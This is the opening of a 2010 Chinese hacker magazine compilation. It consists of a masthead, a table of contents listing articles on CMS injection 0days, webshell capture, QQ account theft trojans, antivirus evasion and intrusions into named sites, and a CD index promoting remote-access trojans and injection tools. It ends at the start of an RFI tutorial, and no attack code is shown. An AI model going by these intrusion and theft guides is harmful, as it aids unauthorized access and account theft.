# 黑客X档案合订本2010年（上）第一部分

---

# 《黑客X档案》畅销系列丛书：菜鸟 Hacker 进化最佳教程

# 2010《黑客X档案》合订本（上卷）

WWW.HACKERXFILES.NET  WWW.HACKERXFILES.NET

## 经典漏洞回顾

- 新年新漏洞之 Discuz! 7.1&7.2 远程代码执行
- Xxasp 网络硬盘 V3.3.2 注入漏洞简单利用
- 网趣 Shop V9.6 SQL 注入漏洞批量拿 webshell
- PHPCMS2008 最新版后台拿 webshell
- DedeCMS V5.5 Final GetWebshell 最新 0day 漏洞
- PHPCMS2008 代码执行漏洞轻松拿 webshell
- 一起来体验 ECShopXp v7.4 SQL 注入 0day
- webshell 别跑，看我 ECShop SQL 注入 0day
- 菜鸟们一起来玩 PHPCMS2008 SP3 注入 0day

## 生逢乐园

- 劫持，又见劫持——我不怕不怕啦
- 软件破解技术初探
- 一步一个脚印：教小菜菜架设网站“独击”
- 轻松拥有自己的博客——WordPress 博客全攻略

## X档实战堂

- 从 RFI 漏洞到 Linux 简单提权
- 从零开始学 Cookie 注入
- 由点到面，内网渗透大作战
- 小菜跑跨站之路
- 打造菜鸟的安全防线

## 精彩内容一览

- QQ 农场、抢车位、好友买卖——“牧”场攻略！
- 再战博客特洛伊，将疯狂盗 Q 进行到底
- 网页破解我们就用溯雪刃
- 密码破解，一学就会
- 爱 Q 大全 + QQ 申诉——终极盗号
- 记小菜的一次社工复仇
- 新奇好玩的 Yuan OS
- 强大的“花姑娘”——远程控制使用小记
- 教你十分钟刷五千个百度空间流量
- 免费杀毒软件随意挑
- VB 编写界面仿造型盗号木马
- 记一次特别的盗 Q 反击！——通过黑客的木马盗黑客的 QQ





# 黑客X档案 2010 合订本

## 上卷




# 《黑客X档案》2010年合订本（上卷）

- 出品人：孙胜利
- 主编：杨冬柱
- 编辑部：sagi/呆呆虫/虫虫/咖啡
- 编辑部：战神MARS/黄色潜水艇/笨牛牛
- 特约编辑：ww0830/hackest/txcbg
- 特约编辑：姜超/孟方明/Talent Feng
- 光盘部：木头
- 设计：阮全勇
- 排版：QuanLu
- 发行部总监：湛颖
- 联系电话：010-88561473
- 发行部经理：赵琦
- 联系电话：010-88561472
- 联系电话：010-88560080
- E-Mail：hackerxfiles@263.net
- 定价：人民币35.00元（光盘+手册）

**声明：**刊中所载文字及图片，版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊立场无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们支付的稿酬已包含了授权相关资费。如有相关问题，请作者及时与我们联系。

## CONTENT

## 来吧安全

- 2010.01 从RFI漏洞到Linux简单提权 …… 9
- 2010.02 从零开始学Cookie注入 …… 15
- 2010.03 由点到面内网渗透大作战 …… 21
- 2010.04 打造电脑的安全防线 …… 28
- 2010.05 小菜的跨站之旅 …… 37
- 2010.06 手把手教你5900端口入侵抓肉机 …… 47

## QQ专栏

- 2010.01 QQ空间套装免费拿 …… 49
- 2010.01 QQ农场牧场反抗战 …… 50
- 2010.01 再战特洛伊——将疯狂盗Q进行到底 …… 51
- 2010.01 QQ农场：抢车位，好友买卖——“一网”打尽！ …… 51
- 2010.02 简单获取QQ农场作物ID …… 53
- 2010.02 电脑上手机腾讯网全攻略 …… 55
- 2010.02 钓的不是密码而是QQ密保 …… 56
- 2010.02 再战特洛伊，对爱Q大盗的补充 …… 59
- 2010.03 爱Q大盗 + QQ申诉 = 终极盗号 …… 60
- 2010.03 QQ空间将外挂进行到底 …… 61
- 2010.03 让我们来一起定制QQ专用下载器 …… 62
- 2010.03 免杀小马让盗Q来得更猛烈些吧！ …… 64
- 2010.04 QQ被封后的聊天与偷菜 …… 65
- 2010.04 腾讯QQ硬盘新BUG …… 66
- 2010.04 记一次特别的盗QQ反击！——通过黑客的木马盗黑客的QQ …… 67
- 2010.04 QQ农场玩外挂，就要不封号 …… 68
- 2010.04 QQ自慰法 …… 68
- 2010.05 QQ空间上的IP统计器与好友IP地址的泄漏 …… 70
- 2010.05 漏洞让爱Q大盗无处遁形 …… 72
- 2010.05 QQ突破的接力——两招技巧，让QQ玩至巅峰 …… 72
- 2010.05 刷钻工具背后的阴谋 …… 75
- 2010.06 QQ群靓号&QQ号颜倒BUG再续 …… 76
- 2010.06 免费来开通QQVIP邮箱 …… 77
- 2010.06 让山寨手机也能后台运行QQ …… 78
- 2010.06 通杀网吧还原盗QQ …… 79

# 网吧黑客

- 2010.01 神奇的复制法大破网吧限制 …… 80
- 2010.01 不用任何工具破解网吧限制U盘的使用 …… 81
- 2010.01 轻松破解万象机房管理系统 …… 81
- 2010.02 看小菜如何徒手杀万象 …… 82
- 2010.02 再谈对万象机房管理系统的破解 …… 83
- 2010.02 为了逃费通杀机房管理系统 …… 84
- 2010.03 恶作剧搞定局域网全部电脑 …… 85
- 2010.03 对学校机房的一次破解 …… 86
- 2010.05 轻松突破网吧隐藏磁盘限制 …… 87
- 2010.05 关闭1433端口我也能Pubwin2007加钱 …… 88
- 2010.06 免费上网无识破网管的小把戏吧！ …… 90
- 2010.06 菜鸟快乐网吧行 …… 91

## 热门黑客

- 2010.01 关于桌面两个IE图标无法删除的研究 …… 95
- 2010.01 XP系统之双开3389 …… 96
- 2010.01 百度贴吧跳转解密 …… 98
- 2010.01 用好系统自带的加密功能 …… 98
- 2010.01 菜鸟也能Windows 7免激活 …… 100
- 2010.01 打击流氓：我的IE主页我做主 …… 102
- 2010.01 帮菜鸟理解OR注入的应用 …… 105
- 2010.01 看我来阻止Windows存储密码LAN Manager（LM）哈希 …… 106
- 2010.01 Webshell后门揭秘与预防 …… 107
- 2010.01 看我的应急网络——蓝牙无线 …… 108
- 2010.01 拯救Xmarks书签 …… 109
- 2010.02 网页破解我们就用溯雪II …… 110
- 2010.02 终极伪装捆绑捉鸡大法 …… 112
- 2010.02 从日IP过万到流量赚钱 …… 114
- 2010.02 偷天换日“好好”学习 …… 116
- 2010.02 破解“宽带我世界”突破铁通的限制 …… 119
- 2010.02 看我如何对OFFICE卸磨杀驴 …… 120
- 2010.02 汉字密码的简单应用 …… 120
- 2010.02 三招两式搞定博士科技文件夹加锁王企业版 …… 122
- 2010.02 密码破解，一学就会 …… 124
- 2010.02 后台eWebEditor在IE8下全部按钮失效的解决 …… 128
- 2010.03 Hosts文件的妙用 …… 129
- 2010.03 短信轰炸让骗子彻底崩溃 …… 130
- 2010.03 如何给程序添加后门 …… 131
- 2010.03 量产打造超级U盘 …… 132
- 2010.03 代理我就用SSH …… 134
- 2010.03 另类隐藏文件夹 …… 136
- 2010.03 网络营销之邮件群发 …… 137
- 2010.03 巧用VB隐藏文件 …… 139
- 2010.03 认清SQL注入中的单、双引号和注释符 …… 139
- 2010.03 缺少VB关联文件？让VB-PowerWrap与妙招来搞定它 …… 141
- 2010.03 简单搞定“计算机数学考试系统” …… 143
- 2010.04 记小菜的一次社工复仇 …… 144
- 2010.04 免费彩信无限发 …… 145
- 2010.04 菜鸟解密网易闪电邮 …… 146
- 2010.04 教你十分钟刷五千个百度空间流量 …… 147
- 2010.04 Google提供的免费翻墙软件GAppProxy …… 148
- 2010.04 VPN让我网络畅游更便捷 …… 150
- 2010.04 简简单单追踪注册表 …… 151
- 2010.04 收缩虚拟磁盘的一个方法 …… 152
- 2010.04 多管齐下——彻底切断非法网络连接的“黑手” …… 153
- 2010.04 你的批处理密码验证真的安全吗？ …… 156
- 2010.05 看小菜对路由器的暴力破解 …… 158
- 2010.05 打印机也可以被黑？ …… 159
- 2010.05 密码字典+扫描器=LAN定点入侵 …… 160
- 2010.05 在系统安装盘中留下后门 …… 162
- 2010.05 为Remote Administrator巧加时间锁 …… 163
- 2010.05 让翻墙更加智能——该翻就翻 …… 165
- 2010.05 新奇好玩的Yuan OS …… 167
- 2010.05 让“收费软件”无处遁形 …… 169
- 2010.05 在免费的GAE云计算平台上搭建自己的网站 …… 172
- 2010.06 通过139邮箱免费给对方发短信 …… 173
- 2010.06 利用IPv6进行网络加速 …… 174
- 2010.06 全新的代理软件——张生翻墙 …… 175
- 2010.06 Vista、Windows7让驱动更新更轻松 …… 176
- 2010.06 菜菜的WINRAR破解改造之路 …… 177
- 2010.06 我的密码不怕“走光”——为加密包巧配“绝密钥匙” …… 178
- 2010.06 一劳永逸，卡巴斯基客户端自动安装程序制作有效法 …… 179

## 网马记

- 2010.01 替换登录窗口的QQ木马 …… 182
- 2010.01 国外的强大木马Bandook …… 183
- 2010.02 用国外木马Apocalypse捉肉鸡过春节 …… 187
- 2010.02 维度远控我们一起来分享 …… 190
- 2010.03 用“千里目”来玩远控 …… 192
- 2010.03 功能强悍的PCRat企业远程管理软件 …… 194
- 2010.04 独具一格的Nuclear Rat …… 196
- 2010.04 木马的“咖啡伴侣”——屏幕间谍 …… 201
- 2010.05 远程控制任我行 …… 202
- 2010.05 简单易用的外国木马——Schwarze Sonne …… 205
- 2010.06 不是MSN的远程控制木马 …… 207
- 2010.06 强大的“花姑娘”——远程控制使用小记 …… 210
- 2010.06 小菜带大家来认识XSS木马 …… 212

# 毒苑

- 2010.01 看小菜清除病毒全过程 …… 215
- 2010.01 Malzilla的抓马行动 …… 216
- 2010.02 与病毒WIN32.KUKU.GEN的一场战争 …… 217
- 2010.02 这个“流氓”挺猖獗 …… 219
- 2010.03 笨鸟对抗恶意软件之“一颗心”主页再现 …… 221
- 2010.04 “糖果”，看我怎么吃掉你！ …… 222
- 2010.04 看小菜手动清除流氓软件+木马 …… 223
- 2010.05 解密分析vbs脚本病毒 …… 224
- 2010.05 让木马逃过系统还原的扼杀 …… 225

## 狭路相逢

- 2010.03 恋安 …… 227
- 2010.04 凤凰挽歌，黑客独白 …… 229
- 2010.05 黑暗生活 …… 230
- 2010.06 黑色记事本 …… 231

# 一个人的战争

- 2010.01 Xxasp网络硬盘v3.3.2注入漏洞简单利用 …… 236
- 2010.01 干掉智创防火墙入侵中国网络在线 …… 237
- 2010.01 天天供求信息网站管理系统漏洞快速拿webshell …… 239
- 2010.01 菜鸟手记检测“放心”的交易网 …… 241
- 2010.01 手工注入敲开网站的安全大门 …… 243
- 2010.01 浅谈MYSQL5.0以上的注入 …… 247
- 2010.01 一起来入侵Linux服务器 …… 248
- 2010.01 内网突破SSL来嗅探 …… 251
- 2010.02 新年新漏洞之Discuz!7.1&7.2远程代码执行 …… 252
- 2010.02 网趣Shop V9.6 SQL注入漏洞批量拿webshell …… 254
- 2010.02 风云房产门户信息网漏洞批量拿shell …… 256
- 2010.02 记一次1433弱口令害服务器过程 …… 257
- 2010.02 跨库查询搞定某中学网站 …… 260
- 2010.02 渗透中另一种抓系统密码HASH的技巧 …… 261
- 2010.02 手工注入某大型旅游网 …… 262
- 2010.02 迎新年PHPWind漏洞大观 …… 266
- 2010.03 PHPCMS2008最新版本后台拿webshell …… 268
- 2010.03 PHPMPS 0day漏洞轻松利用 …… 270
- 2010.03 小菜来玩CityShop V5.5.8 SQL注入漏洞 …… 271
- 2010.03 FCKeditor新利用搞定四套程序 …… 273
- 2010.03 细节决定成败入侵某公司网站 …… 276
- 2010.03 对某公司网站的一次入侵检测 …… 279
- 2010.03 博贤科技管理系统最新ODAY利用 …… 280
- 2010.03 搜索型漏洞来击溃VODCMS 6.0.0 …… 283
- 2010.04 DedeCMS V5.5 Final GetWebshell最新0day漏洞 …… 285
- 2010.04 PHPCMS2008代码执行漏洞轻松拿webshell …… 286
- 2010.04 eWebEditor编辑器漏洞全利用 …… 288
- 2010.04 深度网址导航上传漏洞快速拿webshell …… 289
- 2010.04 巧妙构造拿到网站webshell …… 291
- 2010.04 KesionCMS v6.5上传0DAY助我入侵 …… 293
- 2010.04 友情链接XX大学网站 …… 295
- 2010.04 从分析ShopXp v8注入0Day到编写漏洞利用工具 …… 297
- 2010.05 一起来体验ShopXp v7.4 SQL注入0day …… 299
- 2010.05 又见W78cms SQL注入0day漏洞 …… 300
- 2010.05 一次对虚拟主机的安全检测 …… 302
- 2010.05 菜鸟入侵记 …… 305
- 2010.05 看菜鸟对DB2数据库的注入 …… 306
- 2010.05 利用云起企业建站系统通杀0day的一次入侵和提权 …… 308
- 2010.05 细节决定成败——迂回入侵某六合彩网站 …… 311
- 2010.05 对XX演艺公司网站的一次入侵 …… 313
- 2010.06 webshell别跑看我ECShop SQL注入0day …… 315
- 2010.06 菜鸟们一起来玩PHPCMS2008 SP3注入0day …… 317
- 2010.06 CuteEditor编辑器0day轻松批量拿shell …… 321
- 2010.06 利用重命名漏洞来获取webshell …… 322
- 2010.06 抓住细节一记入侵某教育网站 …… 323
- 2010.06 对安全中国网站的一次入侵检测及漏洞修补 …… 326
- 2010.06 对一房地产网站的安全检测 …… 328
- 2010.06 手工注入检测山东大学某分站 …… 330

### 安全篇一

- 2010.01 你的Windows自动登录安全吗？——为系统自动登录添加“加密锁” …… 334
- 2010.01 关于网站安全的一点小想法 …… 334
- 2010.02 小菜防毒慢成长手册 …… 336
- 2010.03 病毒查杀的新选择 …… 338
- 2010.04 免费杀毒软件随意挑 …… 340
- 2010.05 系统防护新选择——金山卫士 …… 343
- 2010.05 菜鸟浅谈后门检测 …… 345
- 2010.06 强大的安全辅助工具XueTr …… 347
- 2010.06 保护系统安全的批处理 …… 351
- 2010.06 WEB服务器防御之把黑客拒于远程终端门外 …… 352

## 黑客研究院

- 2010.01 简单分析28论坛网V1.0免费版漏洞 …… 355
- 2010.01 九猫PHP人才程序3.0版漏洞大观 …… 357
- 2010.01 网尽图片管理系统漏洞分析 …… 361

## CONTENT

- 2010.02 用彩虹表破解 MySQL Hash ··············································· 364
- 2010.02 循序渐进分析漏洞以及手工注入 ··········································· 367
- 2010.03 巧妙突破 Web 杀毒 ······················································· 369
- 2010.03 Web 安全之 XSS 挖掘利用——对 ok3w 的深入分析 ························· 371
- 2010.03 看小菜再来破解 MSSQL Hash ·············································· 374
- 2010.04 浅谈 ZZCMS 0day 以及 web2.0 下的跨站拿 shell ·························· 377
- 2010.04 搜索型注入原理详细解析 ··················································· 379
- 2010.05 Shopxp V7.4 网店系统 SQL 注入漏洞分析 ································ 382
- 2010.06 搜索型注入击垮 VODCMS 续谈——Server Limit DoS ····················· 384
- 2010.06 PHPAA 文章管理系统漏洞分析 ··········································· 385
- 2010.06 PHP 后门讲解大杂烩 ······················································· 387

## UNIX黑客行

- 2010.01 Linux 黑客入门之远程管理 ··············································· 391
- 2010.02 Linux 黑客入门之 LAMP 环境的搭建 ····································· 394
- 2010.03 Webmin——服务器管理的新选择 ········································· 396
- 2010.04 Linux 下杀毒软件的使用 ··················································· 399

## 栅栏园

- 2010.01 爆破 SmartCheck ··························································· 400
- 2010.01 大白鲨远控免杀过瑞星 ··················································· 401
- 2010.02 输入表免杀方法总结 ······················································· 403
- 2010.03 移动加密类软件的破解 ····················································· 405
- 2010.03 免杀之重写输出表 ························································· 409
- 2010.04 免杀就是这么简单！ ······················································· 411
- 2010.04 小菜浅谈常规脱壳方法的灵活运用 ······································· 413
- 2010.04 破解实战篇——算法分析与注册机编写 ··································· 416
- 2010.05 让保护代码无处可逃 ······················································· 419
- 2010.05 一次失败的追码经历 ······················································· 422
- 2010.06 与 Anti-debug crackme 斗智斗勇 ········································· 427
- 2010.06 算法分析与注册机实战之 Free Internet Window Washer 2.8 ··········· 430

## 黑客编程

- 2010.01 脚本小子来了——AutoIt 初体验 ··········································· 434
- 2010.01 使用 DirectInput 来进行键盘监控 ········································· 437
- 2010.01 VB 木马编写之发信的基本方法 ··········································· 440
- 2010.02 简简单单来找茬——我也来编写 QQ 找茬外挂程序 ······················· 443
- 2010.03 用 VC++6.0 编写一个简单的进程查看器 ································· 444
- 2010.03 VB 编写界面伪造型盗号木马 ··············································· 447
- 2010.04 兵不血刃让菜鸟秒杀网络验证 ··········································· 450
- 2010.05 CodeFans 留下的“后门” ··················································· 452
- 2010.05 了解 Webshell 后门箱子及其编程实现 ··································· 453
- 2010.06 袭悦指令 VB 执行——打造属于自己的 QQ 炸弹 ························· 455
- 2010.06 浅谈密保卡的应对之道 ····················································· 456
- 2010.06 贯彻落实木马的启动“精神” ··············································· 459

## 主题乐园

- 2010.01 软件破解技术初探 ························································· 463
- 2010.02 劫持，又见劫持——我不怕不怕啦！ ······································· 466
- 2010.04 一步一个脚印教小菜学另类网站“攻击” ································· 471
- 2010.06 轻松拥有自己的博客——WordPress 博客全攻略 ························· 475

# 光盘索引

## 360安全卫士

目前木马威胁之大已远超病毒，360安全卫士运用云安全技术，在杀木马、打补丁、保护隐私、保护网银和游戏的账号密码安全、防止电脑变肉鸡等方面表现出色，被誉为“防范木马的第一选择”。

## Sound Snooper

实时录音软件，可以帮你进行会议记录、电话监控和录音、广播录音，甚至间谍活动等等。

## Nuclear Rat 2.51

一款不错的远控程序，比灰鸽子还要强大的功能。

## 屏幕间谍软件

如果您的电脑经常被别人使用，您的员工上班时需要有所监督，孩子的上网行为需要正确引导，那么，我们向您推荐屏幕间谍软件。屏幕间谍为你安装一个软件摄像头，使你天涯海角仍能掌握乾坤。

## VMware

VMware 是一个“虚拟 PC”软件公司，它的产品可以使你在一台机器上同时运行二个或更多 Windows、DOS、Linux 系统。与“多启动”系统相比，VMware 采用了完全不同的概念。

### 513vpn

513vpn 加速器是针对网络游戏玩家量身订做的一款网络加速器软件，通过使用 513vpn 加速软件，您将享受到 513vpn 服务器带给您的最优化网络传输，让您在访问游戏服务器时获得最佳的访问速度，让您蹒跚的网络速度顿时欢畅淋漓起来。

## 啊D注入解密

对“MSSQL 显错模式”、“MSSQL 不显错模式”、“Access”等数据库都有很好的注入检测能力，内集“跨库查询”、“注入点扫描”、“管理入口检测”、“目录查看”、“CMD 命令”、“木马上传”、“注册表读取”、“旁注/上传”、“WebShell 管理”于一身的综合注入工具包。

## 360手机卫士

360手机卫士是一款完全免费的手机安全软件，集防垃圾短信、防骚扰电话、防隐私泄漏、长途电话 IP 自动拨号，系统清理手机加速，归属地显示功能于一身。拦截垃圾短信和骚扰来电，还您清静的手机空间。

## X-Scan 3.3中文版

安全焦点出品的国内很优秀的扫描工具，采用多线程方式对指定 IP 地址段（或单机）进行安全漏洞检测，支持插件功能，提供了图形界面和命令行两种操作方式。

## 5800VNC全自动多段端口全扫描器

这个是弱口令扫描版，扫描到的 IP 存放于 saveip 文件夹下面，可以使用 VNC 登录器登录。

## 秒杀万象

按任意键后，便出现了选择万象版本的界面，万象版本可在菜单“关于”处看到。选择版本（“1” or “2” or “3”）后回车，即可进入自动破解。

## 张生解码器

可翻墙上 Dropbox 以及 YouTube 等墙外网站。

## 花姑娘远程控制2010正式版

花姑娘远程控制 2010 正式版免费使用。

## Web路径破解器

由于手工猜解管理后台路径的成功几率很低，因此就有必要使用专业的 Web 目录猜解工具。该软件本身就内置有十几个字典文件，只需定制好猜解路径、线程数（最高支持 5000 线程）及字典文件，即可进行暴力猜解。

### 灌迷你QQ农牧场2.0

工具灌迷你 QQ 农牧场 2.0 可以很方便地邀请开通 QQ 校友和 QQ 空间，自由进入被封的农场和牧场。

## 逍遥游伪ASP服务器

关闭某些占用 80 端口的软件，如：迅雷等等。选择网站根目录，启动服务。

## 简易网址嗅探工具EasyURLSpy

本软件是轻量级的网址嗅探工具，它使用了与酷抓完全不同的内核，你可以使用它进行一些简单的网址嗅探。同时它可以与酷抓集成使用，它嗅探到的网址会自动发送到酷抓窗口。

## 菜刀

这是一斩断黑手的利刃，它适用于 Windows 2000/XP/2003 操作系统，其内部功能是十分强大，用于查探系统中的幕后黑手——木马后门，并作出处理。

## 批处理转EXE

可以自杀的 EXE，真是便宜了那些别有用心的人。

## 变速精灵

变速精灵（原名兄弟变速器）是一款电脑加速软件，最高可加速 256 倍，微调精度达到 0.001 位，采用纯软件方式变速，决不会损害电脑硬件。

## 流量精灵

是一款针对网站站长、个人博客、网络写手、网站推广、网络营销、QQ 空间爱好者等各类网络用户用于提高网站流量、店铺人气、每日 PV（访问量）、UV（独立访客）、IP（独立 IP）等的免费推广软件。

## 维度远程控制程序

维度远程控制，完美杂交语言编写。



# 从RFI漏洞到Linux简单提权

txcbg

今年的冬天真的有些异常，刚入冬时天气冷了一阵，渐渐地到了深冬，天气却又不怎么冷了。我喜欢不太冷的天气，因为天气太冷的话摸一阵键盘手就会冻得冰凉。

元旦刚过，txcbg 就又走上了菜鸟学堂的讲台：“大家好，欢迎各位同学来上新年的第一堂课，去年我们主要学习了一些常见的黑客工具的利用，都说新年新气象，那么从这节课开始我就给大家介绍一点新的东西。”

讲台下的菜鸟们一听 txcbg 老师要介绍新东西，都来了精神，一个菜鸟忍不住地问道：“txcbg 老师，今天你准备给我们讲什么新知识呢？”

txcbg 看到菜鸟们的好奇心被吊了起来，就心满意足地开始正式讲课了：“大家想不想抓 webshell？”“想！”台下的菜鸟异口同声地说道。

“在去年的课程里，我已经详细地介绍过了使用注入漏洞来获得 webshell 的方法，今天我再教给大家一个抓 webshell 的新方法，这个新方法是什么呢？就是通过 RFI 漏洞来抓 webshell。”

“大家一定非常想知道什么是 RFI 漏洞吧，下面我给大家解释一下，RFI 是 Remote File Include 的英文缩写，直译过来就是远程文件包含，所以 RFI 漏洞也就是远程文件包含漏洞。服务器通过 php 的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可以去包含一个恶意文件，而我们可以构造这个恶意文件来达到恶意的目的。几乎所有的 CGI 程序都有这样的 bug，只是具体的表现方式不一样罢了。如果在包含远程文件时出现了文件包含漏洞，就是远程文件包含漏洞。”

